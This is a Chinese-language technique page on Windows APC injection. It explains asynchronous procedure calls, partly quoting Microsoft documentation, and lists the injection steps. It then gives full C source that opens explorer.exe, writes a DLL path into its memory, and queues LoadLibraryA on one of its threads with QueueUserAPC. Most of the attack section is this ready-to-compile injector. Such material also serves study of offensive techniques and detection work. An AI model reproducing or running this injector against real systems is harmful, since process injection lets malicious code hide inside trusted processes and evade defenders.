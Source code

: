 ```yaml
---
description: APC注入
---
```


# APC Injection

## APC简介

> 一个_异步过程调用_（APC）的是，在一个特定的线程的上下文中以异步方式执行的功能。当APC排队到线程中时，系统会发出软件中断。下次调度线程时，它将运行APC功能。系统生成的APC称为_内核模式APC_。由应用程序生成的APC称为_用户模式APC_。线程必须处于可警报状态才能运行用户模式APC。

> 每个线程都有自己的APC队列。应用程序通过调用**QueueUserAPC**函数将APC排队到线程中。调用线程在对**QueueUserAPC**的调用中指定APC函数的地址。APC的排队是对线程调用APC函数的请求。

> 当用户模式APC排队时，除非它处于警报状态，否则不会将其排队的线程定向到调用APC函数。当线程调用**SleepEx**，**SignalObjectAndWait**，**MsgWaitForMultipleObjectsEx**，**WaitForMultipleObjectsEx**或**WaitForSingleObjectEx**函数时，它将进入可警告状态。如果在APC排队之前满足了等待，线程将不再处于可警告的等待状态，因此将不执行APC功能。但是，APC仍在排队，因此当线程调用另一个可警告的等待函数时，将执行APC函数。**ReadFileEx**，**SetWaitableTimer**，**SetWaitableTimerEx**，和**WriteFileEx**功能使用APC作为完成通知回调机制来实现。

简单的说，由于在线程执行过程中，其他线程无法干预当前执行线程\(占用cpu\)，如果需要干预当前执行线程的操作，就需要有一种让线程自身去调用的机制，windows实现了一种称之为APC的技术，这种技术可以通过插入队列\(执行信息\)让线程在一定条件下自己去调用，这样就实现了异步操作。

> 线程是不能被“杀掉”、“挂起”、“恢复”的,线程在执行的时候自己占据着CPU,别人怎么可能控制它呢?

> 举个极端的例子:如果不调用API,屏蔽中断,并保证代码不出现异常,线程将永久占用CPU,何谈控制呢?所以说线程如果想“死",一定是自己执行代码把自己杀死,不存在“他杀”这种情况!

> 那如果想改变一个线程的行为该怎么办呢?

> 可以给他提供一个函数,让它自己去调用,这个函数就是APC \(Asyncroneus Procedure Call\),即异步过程调用。

## 注入流程

1. 从进程名确定PID
2. 从PID确定TID
3. 写入必要代码
4. 插入APC队列

## 代码实现

```text
#include<Windows.h>
#include<stdio.h>
#include <Tlhelp32.h>

DWORD GetProcessIdByName(LPCTSTR lpszProcessName)
{
	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (hSnapshot == INVALID_HANDLE_VALUE)
	{
		return 0;
	}

	PROCESSENTRY32 pe;
	pe.dwSize = sizeof pe;

	if (Process32First(hSnapshot, &pe))
	{
		do {
			if (lstrcmpi(lpszProcessName, pe.szExeFile) == 0)
			{
				CloseHandle(hSnapshot);
				return pe.th32ProcessID;
			}
		} while (Process32Next(hSnapshot, &pe));
	}

	CloseHandle(hSnapshot);
	return 0;
}


BOOL GetAllThreadIdByProcessId(DWORD dwProcessId)
{

	DWORD dwBufferLength = 1000;
	THREADENTRY32 te32 = { 0 };
	HANDLE hSnapshot = NULL;
	BOOL bRet = TRUE;


	// 获取线程快照
	::RtlZeroMemory(&te32, sizeof(te32));
	te32.dwSize = sizeof(te32);
	hSnapshot = ::CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);

	// 获取第一条线程快照信息
	bRet = ::Thread32First(hSnapshot, &te32);
	while (bRet)
	{
		// 获取进程对应的线程ID
		if (te32.th32OwnerProcessID == dwProcessId)
		{
			return te32.th32ThreadID;
		}

		// 遍历下一个线程快照信息
		bRet = ::Thread32Next(hSnapshot, &te32);
	}
	return 0;
}

int main() {
	FARPROC pLoadLibrary = NULL;
	HANDLE hThread = NULL;
	HANDLE hProcess = 0;
	DWORD Threadid = 0;
	DWORD ProcessId = 0;
	BYTE DllName[] = "C:\\Users\\Black Sheep\\source\\repos\\ApcInject\\x64\\Debug\\TestDll.dll";
	LPVOID AllocAddr = NULL;

	ProcessId = GetProcessIdByName(L"explorer.exe");
	hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, ProcessId);
	pLoadLibrary = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryA");
	AllocAddr = VirtualAllocEx(hProcess, 0, sizeof(DllName) + 1, MEM_COMMIT, PAGE_READWRITE);
	WriteProcessMemory(hProcess, AllocAddr, DllName, sizeof(DllName) + 1, 0);
	Threadid = GetAllThreadIdByProcessId(ProcessId);
	hThread = OpenThread(THREAD_ALL_ACCESS, 0, Threadid);
	QueueUserAPC((PAPCFUNC)pLoadLibrary, hThread, (ULONG_PTR)AllocAddr);
	CloseHandle(hProcess);
	CloseHandle(hThread);
	return 0;

}
```

## LINKS

{% embed url="https://github.com/idiotc4t/ApcInject" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls" %}



